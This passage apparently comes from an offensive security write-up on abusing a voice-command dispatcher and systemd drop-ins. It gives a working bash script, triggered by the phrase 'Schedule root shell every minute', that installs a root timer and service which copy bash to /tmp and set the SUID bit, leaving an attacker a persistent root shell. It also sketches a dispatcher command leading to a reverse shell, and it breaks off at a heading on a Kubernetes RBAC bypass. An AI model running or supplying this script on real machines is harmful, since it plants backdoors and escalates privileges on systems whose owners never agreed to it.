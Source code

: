* **Dispatcher Exec**

  ```bash
  bash -c "mkdir -p … && cat <<EOF…EOF && systemctl daemon-reload && systemctl restart whisper-invoke@user"
  ```
* **Underlying Actions**

  * `mkdir()` → create drop-in directory
  * `open()`/`write()` → write override.conf
  * `execve("systemctl",…)` → D-Bus call `ReloadUnitFiles()` + `RestartUnit()`
  * Kernel: `clone()`, `socket()`, network → reverse shell

> **Linux Primitives**: `open()`, `write()`, `mkdir()`, `chmod()`, `execve()`, D-Bus over UNIX socket.

---

### 8.3 Systemd Drop-In Trickery

Beyond services, timers and mounts can be abused.

#### 8.3.1 Timer Elevation

```bash
# Voice Phrase: “Schedule root shell every minute”
bash -c "cat <<EOF > /etc/systemd/system/root-shell.timer
[Unit]
Description=Root Shell Timer

[Timer]
OnCalendar=*-*-* *:*:0/1

[Install]
WantedBy=timers.target
EOF
cat <<EOF > /etc/systemd/system/root-shell.service
[Service]
Type=oneshot
ExecStart=/bin/bash -c 'cp /bin/bash /tmp/bash-root; chmod 4755 /tmp/bash-root'
User=root
EOF
systemctl daemon-reload && systemctl enable --now root-shell.timer"
```

* **Syscalls & Units**

  * File writes to `/etc/systemd/system/*` → `open()`, `write()`
  * `systemctl enable` → symlink in `/etc/systemd/system/timers.target.wants/`
  * Kernel: `chmod(2)` sets SUID on `/tmp/bash-root`

> **Result:** Attacker acquires `/tmp/bash-root` — a SUID root shell.

---

### 8.4 Kubernetes RBAC Bypass via Mesh API

